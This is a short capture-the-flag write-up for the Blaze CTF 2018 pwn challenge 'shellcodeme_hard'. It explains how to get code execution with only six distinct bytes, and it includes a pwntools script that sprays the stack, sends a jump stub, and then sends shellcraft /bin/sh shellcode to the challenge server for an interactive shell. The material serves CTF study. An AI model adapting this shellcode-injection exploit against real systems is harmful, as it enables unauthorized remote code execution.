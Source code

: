 [](ctf=blaze-2018)
[](type=exploit)
[](tags=game)
[](techniques=shellcode)

# shellcodeme_hard (pwn-420)

```
nc shellcodeme.420blaze.in 4200

Author : aweinstock
```

Solving the easy version of this chall took me some time. However once that was done, I used the same technique to pwn this one.

In this hard version the stack and registers were populated from /dev/urandom so that we don't have references to pivot through.
This made me do the chall in 6 unique bytes.

```python
from pwn import *

context(arch='amd64', os='linux', log_level='info')

payload = asm(("push 0x40000000; "*0x100)+("push rbx; "*36)+"push 0x400000; pop rbx; "+("inc ebx; "*0x86d)+"push rbx; ret;")
payload2 = asm(shellcraft.amd64.linux.sh())

s = remote("shellcodeme.420blaze.in", 4200)

s.sendline(payload)
s.sendline(payload2)

s.interactive()
s.close()

```

 The random values from the context seldom had 0s. So I sprayed the stack with a register to make `seen` for every character > 0.
 Then using the technique from [here](../../shellcodeme/sudhackar/README.md) to gain code execution.
